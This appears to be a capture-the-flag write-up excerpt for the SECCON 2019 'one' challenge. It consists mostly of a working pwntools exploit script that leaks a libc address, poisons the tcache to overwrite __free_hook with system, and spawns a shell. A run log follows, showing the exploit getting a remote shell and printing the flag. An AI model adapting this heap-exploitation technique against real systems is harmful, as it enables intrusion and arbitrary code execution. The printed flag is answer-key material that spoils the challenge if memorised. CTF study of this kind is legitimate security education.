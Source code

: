 ```python
# Unsorted bin libc leak
show()
leak = u64(p.recvline().strip('\n').ljust(8, '\x00'))
libc.address = leak - 0x3ebca0 # Offset found using gdb
free_hook = libc.symbols['__free_hook']
system = libc.symbols['system']

log.info('Libc leak: ' + hex(leak))
log.info('Libc base: ' + hex(libc.address))
log.info('__free_hook: ' + hex(free_hook))
log.info('system: ' + hex(system))

# Tcache poisoning attack to overwrite __free_hook with system
add('A'*8) # count = 0
free()
free()

# Overwrite __free_hook with system
add(p64(free_hook))
add(p64(0))
add(p64(system))

# Call system("/bin/sh\x00")
add('/bin/sh\x00')
free()

p.interactive()
```

```sh
vagrant@ubuntu-bionic:/ctf/seccon-2019/one$ ./exploit.py REMOTE
[*] '/ctf/seccon-2019/one/one'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/seccon-2019/one/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
REMOTE PROCESS
[+] Opening connection to one.chal.seccon.jp on port 18357: Done
[*] Heap leak: 0x55571ecaa360
[*] Libc leak: 0x7f620fa82ca0
[*] Libc base: 0x7f620f697000
[*] __free_hook: 0x7f620fa848e8
[*] system: 0x7f620f6e6440
[*] Switching to interactive mode
$ ls
flag.txt
one
$ cat flag.txt
SECCON{4r3_y0u_u53d_70_7c4ch3?}
$  
```